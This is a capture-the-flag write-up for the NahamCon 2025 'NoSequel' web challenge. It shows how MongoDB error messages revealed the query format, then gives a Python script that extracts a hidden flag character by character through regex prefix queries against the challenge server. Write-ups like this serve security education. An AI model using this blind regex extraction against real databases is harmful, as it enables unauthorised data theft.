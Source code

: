 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2025 | NoSequel Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2025
parent: nahamcon_2025
category: web
challenge: NoSequel
tags: "web, twh, mongodb, regex"
date: 2025-05-31T00:00:00+00:00
last_modified_at: 2025-05-31T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2025</h1>

## NoSequel
> Solved by thewhiteh4t

In this challenge we had to extract the flag from a movie DB using MongoDB and a search function, as the name suggests first thought was NoSQL injections, but that was not needed as you will see.

An example search query was given : 


    title: Inception {"year": {"$gt": 1990}} title: {$regex: "The"}

Two collections were available in the dropdown and our flag is in `Flags` collection, because it's a CTF. We can figure out correct query string for Flags collection using the errors and eventually build a working query :  


    Query: a
    Error: Only regex queries are supported on the flag collection
    
    Query: {$regex: "The"}
    Error: Only regex on 'flag' field is supported
    
    Query: flag: {$regex: "The"}
    Result:  No results found matching your search criteria.
    
    Query: flag: {$regex: "flag"}
    Result: Pattern matched
    
    Query: flag: {$regex: "flag{"}
    Result: Pattern matched
    
    Query: flag: {$regex: "flag["}
    Result: No results found matching your search criteria.

So by abusing the regex filter we can extract the flag character by character, to automate the process I wrote a python script, the script will bruteforce each character and when it gets expected response, it will update the flag variable and continue with the next character and so on until it extracts all 32 characters of the flag


    #!/usr/bin/env python3
    
    import string
    import requests
    
    url = 'http://challenge.nahamcon.com:31735/search'
    flag = 'flag{'
    charset = []
    charset.extend(list(string.digits))
    charset.extend(list(string.ascii_lowercase))
    
    while len(flag) != 37:
            for char in charset:
                    payload = {
                            'query': 'flag: {$regex: "^' + flag + char + '"}',
                            'collection': 'flags'
                    }
    
                    rqst = requests.post(url, data=payload)
                    output = rqst.text
    
                    if 'Pattern matched' in output:
                            flag += char
                            print(flag)
    
    print(flag + '}')

As you can see the script generates brute force art with the flag at the end : 


![](https://i.imgur.com/HQrZmZU.png)


**Key Learning and Takeaways**


- Error Messages are Your Friend : When trying to figure out the right query for the "Flags" collection, the server's error messages were gold. They guided us, bit by bit, to understand the exact syntax and structure it expected.
- The Power of Regex : The search function supported regular expressions, and that's where the magic happened. Instead of trying to guess the whole flag at once, we could use regex to ask the database, Does the flag start with 'a' ? How about 'b' ? Does the next character match 'c' ?
- Automation : This challenge screamed for a script. Our Python script systematically found each character, confirming it, and then moving to the next, saving lot of time.


